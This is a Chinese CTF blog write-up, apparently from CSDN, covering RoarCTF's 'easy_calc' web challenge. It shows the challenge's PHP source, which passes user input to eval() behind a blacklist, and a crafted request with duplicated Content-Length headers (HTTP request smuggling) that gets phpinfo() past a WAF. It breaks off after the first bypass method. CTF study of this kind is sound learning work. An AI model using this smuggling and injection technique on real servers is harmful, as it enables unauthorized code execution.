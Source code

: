 

# RoarCTFweb题解_qq_41575340的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_41575340/article/details/102657091](https://blog.csdn.net/qq_41575340/article/details/102657091)

# 前言

参加了RoarCTF,题目质量挺好的，学到了一些东西。在这里复现记录一下。

## easy_calc

打开题目发现是一个计算器的功能，感觉计算器已经出过好多次了。查看源代码，发现了calc.php

```
 <?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?> 
```

这里过滤了好多的东西，和国赛的一道题很像，但是直接输入`num=phpinfo()`不能够解析，通过上面的代发也没有对其进行拦截，猜测应该是存在waf对其进行拦截。

过waf的两种方法：
**方法一：**
利用http走私：
原理可以看 [参考文章](https://paper.seebug.org/1048/) 这篇文章。

构造的请求头信息：

```
POST /calc.php?num=phpinfo(); HTTP/1.1
Host: node3.buuoj.cn:28057
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 5
Content-Length: 5//利用http走私

num=1 
```
